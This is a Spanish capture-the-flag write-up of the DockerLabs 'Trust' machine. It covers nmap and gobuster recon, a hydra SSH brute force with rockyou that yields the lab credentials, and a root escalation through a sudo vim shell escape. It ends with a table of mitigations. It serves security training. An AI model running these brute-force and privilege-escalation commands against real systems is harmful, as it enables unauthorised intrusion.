






# Trust — DockerLabs

**Plataforma:** DockerLabs

**IP objetivo:** 172.17.0.2

**Dificultad:** Easy

---

## Recon

### Reconocimiento de hosts

```bash
arp-scan -I docker0 --localnet
```

Objetivo: `172.17.0.2`

### Escaneo de puertos

```bash
nmap -sS -p- -sV -O --open --min-rate 5000 -n -oN scan 172.17.0.2
```



| Puerto | Servicio |
| ------ | -------- |
| 22     | SSH      |
| 80     | HTTP     |

Acceso al puerto 80 vía navegador: servidor Apache2 sin contenido relevante.

### Código fuente

Revisión de código fuente `Ctrl+U`: sin comentarios ni pistas explotables.

### Fuzzing web

```bash
dirb http://172.17.0.2
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```

Sin resultados.

### Fuerza bruta SSH (sin usuario conocido)

```bash
hydra -L /usr/share/seclists/Usernames/Names/names.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

Sin resultados — sin un usuario confirmado, la superficie de ataque es demasiado amplia para ser eficaz.

### Fuzzing de archivos por extensión

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
```

Resultado: `secret.php`

### Lectura de `secret.php`

```bash
curl http://172.17.0.2/secret.php
```



Usuario expuesto: `Mario`

---

## Vulns

- **Exposición de usuario válido** en archivo `.php` accesible sin autenticación ni control de acceso.
- **SSH sin protección contra fuerza bruta** (sin rate-limiting ni `fail2ban` aparente).
- **Contraseña débil** presente en diccionario público (`rockyou.txt`).

---

## Xploit

### Fuerza bruta SSH con usuario conocido

Primer intento con el usuario tal como aparece en `secret.php`:

```bash
hydra -l Mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

Sin resultados. Los nombres de usuario del sistema en Linux son case-sensitive y por convención suelen ir en minúscula, así que se prueba la variante:

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```



**Credenciales obtenidas:**
- Usuario: `mario`
- Contraseña: `chocolate`

### Fuzzing de subdominios (descartado)

Se probó también la vía de vhosts por si había contenido adicional detrás de un subdominio:

```bash
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -H "Host: FUZZ.trust.dl" -u http://172.17.0.2
```

Sin resultados.

### Acceso SSH

```bash
ssh mario@172.17.0.2
```



Acceso obtenido como usuario `mario`.

---

## Privesc

### Enumeración de privilegios sudo

```bash
sudo -l
```



Resultado: el usuario `mario` puede ejecutar `vim` como root sin contraseña.

### Escalada vía GTFOBins

```bash
sudo vim -c ':!/bin/sh'
```



Vim, al tener permiso `sudo` sin restricciones, permite invocar una shell del sistema `:!` heredando el contexto de ejecución de root.

**Acceso root confirmado.**

---

## Mitigación

| Vulnerabilidad | Remediación |
| --- | --- |
| Usuario expuesto en `secret.php` | Eliminar archivos de debug/desarrollo del entorno de producción; aplicar control de acceso si el archivo es necesario. |
| Contraseña débil en SSH | Forzar política de contraseñas robustas; deshabilitar autenticación por contraseña en favor de claves públicas (`PasswordAuthentication no` en `sshd_config`). |
| Ausencia de protección contra fuerza bruta | Implementar `fail2ban` o `sshguard` para bloquear IPs tras intentos fallidos repetidos. |
| `sudo` sin restricciones sobre `vim` | Eliminar el privilegio `sudo` sobre `vim` si no es imprescindible; si lo es, restringir mediante `rbash` o wrappers que impidan la ejecución de comandos de shell `:!` dentro del editor. |
